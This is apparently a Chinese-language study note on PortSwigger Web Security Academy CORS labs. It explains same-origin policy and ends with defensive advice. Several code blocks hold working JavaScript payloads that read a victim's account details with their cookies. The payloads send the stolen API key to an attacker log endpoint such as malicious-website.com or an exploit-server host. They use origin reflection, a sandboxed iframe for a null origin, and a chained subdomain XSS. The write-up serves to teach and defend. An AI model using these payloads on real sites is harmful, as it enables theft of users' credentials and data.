





## 前置知识

### 靶场给的知识：

跨域资源共享 (CORS) 是一种浏览器机制，允许对位于给定域之外的资源进行受控访问。它扩展了同源策略 (SOP)，并增加了灵活性。然而，如果网站的 CORS 策略配置和实施不当，也可能导致跨域攻击。CORS 无法防御跨域攻击，例如跨站请求伪造 (CSRF)。

同源策略非常严格，因此人们设计了各种方法来规避这些限制。许多网站与子域名或第三方网站的交互需要完全的跨源访问。使用跨源资源共享 (CORS) 可以有控制地放宽同源策略。

跨源资源共享协议使用一套 HTTP 标头来定义可信的 Web 源及其相关属性，例如是否允许经过身份验证的访问。这些属性会在浏览器与其尝试访问的跨源网站之间的标头交换中进行组合。

许多现代网站使用 CORS 来允许来自子域名和受信任的第三方的访问。这些网站对 CORS 的实现可能存在错误，或者为了确保一切正常而过于宽松，这可能会导致可利用的漏洞。

### 其他：

#### 1、origin和referer的区别：

referer：

当前请求是从哪个页面链接过来的

格式如：

`Referer: https://example.com/page1.html`

包括协议（`http://` 或 `https://`）、主机名、端口（如有）、以及完整的路径和查询参数。

当用户从一个页面跳转到另一个页面时，浏览器会**自动在请求头中添加 `Referer`**

origin：

`Origin` 头部主要用于 **CORS（跨域资源共享）** 请求中，表示**发起请求的源（协议 + 域名 + 端口）**，但不包含路径和查询参数。

#### 2、同源策略 SOP：

如果两个 URL 的 `protocol、port 和 host` 都相同的话，则这两个 URL 是同源。

- 当前页面：`https://shop.com/product`
- 请求地址：`https://shop.com/api/data` --》同源

同源策略到底限制了什么？

答：**同源策略并不是完全禁止跨域请求，而是限制“读取响应”**。

浏览器允许Javascript向任何域发送HTTP请求，但是如果当前页面是 `https://shop.com`，而响应来自 `https://api.bank.com`，**浏览器会阻止你的 JavaScript 读取响应内容**，除非服务器明确允许。服务器必须在响应头中明确表示：“我允许 `shop.com` 读取这个响应。”

CORS就是解决这个问题，服务器端给响应添加头信息

```
Access-Control-Allow-Origin 必填 允许请求的域
Access-Control-Allow-Methods 必填 允许请求的方法
Access-Control-Allow-Headers 可选 预检请求后，告知发送请求需要有的头部
Access-Control-Allow-Credentials 可选 表示是否允许发送cookie，默认false；
Access-Control-Max-Age 可选 本次预检的有效期，单位：秒；

```

由于是服务器自主选择相应域，就相对安全了。此时就可以访问这个相应了。


## 靶场：具有基本origin反映的 CORS 漏洞

从请求包可以看出是允许发送cookie的，但是没显示允许请求的域


加上Origin头：


可以看到没有对允许请求的域做任何限制

这时就可以搭建攻击者服务器，并放入如下恶意代码：

```
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','0a90009904def403801b9e5600910022.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

`withCredentials = true`：默认情况下，跨域请求不会带上Cookies，但是加上 `req.withCredentials = true` 后，请求会带上受害者的登录 Cookie。所以，这个请求相当于由 **受害者本人** 在访问 `/accountDetails`。

`this.responseText`：受害者是 **administrator** 并且登录着，所以 `/accountDetails` 返回的数据包含 `administrator` 的敏感信息，比如 **API key**。因为 CORS 被滥配，攻击者的脚本能直接拿到响应数据。

`location='/log?key='+this.responseText`：这一步就是 **把窃取到的数据发回攻击者的服务器**（假设攻击者控制 `/log` 路径）。

1、管理员访问了恶意页面（里面有上面这段 `<script>`）。

2、脚本自动向目标站点 `/accountDetails` 发起带 Cookie 的请求。

3、由于目标站点的 **CORS 配置不当**，攻击者页面的 JS 能读取响应。

4、响应里包含管理员的 API key。

5、脚本再把这个 key 发给攻击者的服务器

## 服务器根据客户端指定的 Origin 标头生成 ACAO 标头

某些应用需要提供对其他多个域的访问权限，因此，某些应用程序选择了一种简单的方法，即有效地允许来自任何其他域的访问。

一种方法是读取请求中的 Origin 标头，并在响应标头中添加一个声明，表明该请求源是被允许的。

即：请求中包含：

```
Origin: https://malicious-website.com
```

响应包中包含：

```
Access-Control-Allow-Origin: https://malicious-website.com
```

由于该应用程序在 `Access-Control-Allow-Origin` 标头中反映了任意来源，这意味着任何域都可以访问来自易受攻击域的资源。如果响应包含任何敏感信息，例如 API 密钥或 CSRF 令牌，您可以通过在您的网站上放置以下脚本来检索这些信息：

```
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true);
req.withCredentials = true;
req.send();

function reqListener() {
	location='//malicious-website.com/log?key='+this.responseText;
};
```

## 具有可信空源的 CORS 漏洞



说明服务器的CORS策略信任null源

在攻击服务器：

```js
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" srcdoc="<script>
    var req = new XMLHttpRequest(); //用于在不刷新页面的情况下向服务器发送 HTTP 请求
    req.onload = reqListener;
    req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();
    function reqListener() { //当服务器响应请求时，会触发 reqListener 函数
        location='YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='+encodeURIComponent(this.responseText);
    };
</script>"></iframe>
```

使用iframe是因为它当中发送出去的origin请求头是null

## 通过 CORS 信任关系利用 XSS

给出以下请求：

```
GET /api/requestApiKey HTTP/1.1 
Host: vulnerable-website.com 
Origin: https://subdomain.vulnerable-website.com 
Cookie: sessionid=...
```

如果服务器响应：

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: https://subdomain.vulnerable-website.com 
Access-Control-Allow-Credentials: true
```

然后，在 `subdomain.vulnerable-website.com` 上发现 XSS 漏洞的攻击者可以使用它来检索 API 密钥，使用如下 URL：

```
https://subdomain.vulnerable-website.com/?xss=<script>cors-stuff-here</script>
```

### 靶场：

网站的CORS策略支持子域名：



在商品页面上点击查看库存按钮，可以看到它是使用子域名上的HTTP URL加载的



又发现这个productId参数可能存在XSS



验证一下的确有：



在漏洞服务器中输入一下HTML：

```html
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

## 无需凭证的 Intranet 和 CORS

大多数 CORS 攻击依赖于响应标头的存在：

```
Access-Control-Allow-Credentials: true
```

如果没有该标头，受害者用户的浏览器将拒绝发送他们的 cookie，这意味着攻击者只能访问未经身份验证的内容，他们可以通过直接浏览目标网站轻松访问这些内容。

然而，有一种常见情况是攻击者无法直接访问某个网站：当该网站位于组织内部网中，且位于私有 IP 地址空间内时。内部网站的安全标准通常低于外部网站，这使得攻击者能够找到漏洞并获得进一步的访问权限。例如，私有网络内的跨域请求可能如下所示：

```
GET /reader?url=doc1.pdf 
Host: intranet.normal-website.com
Origin: https://normal-website.com
```

服务器响应如下：

```
HTTP/1.1 200 OK 
Access-Control-Allow-Origin: *
```

## 如何防御CORS漏洞

如果 Web 资源包含敏感信息，则应在 `Access-Control-Allow-Origin` 标头中正确指定来源。

避免使用标头 `Access-Control-Allow-Origin: null` 。来自内部文档和沙盒请求的跨域资源调用可以指定 `null` 源。CORS 标头应针对私有服务器和公共服务器的可信来源进行正确定义。

避免在内部网络中使用通配符。

CORS 定义了浏览器的行为，但它永远无法取代服务器端对敏感数据的保护——攻击者可以直接伪造来自任何受信任来源的请求。因此，除了正确配置 CORS 之外，Web 服务器还应继续对敏感数据（例如身份验证和会话管理）实施保护。
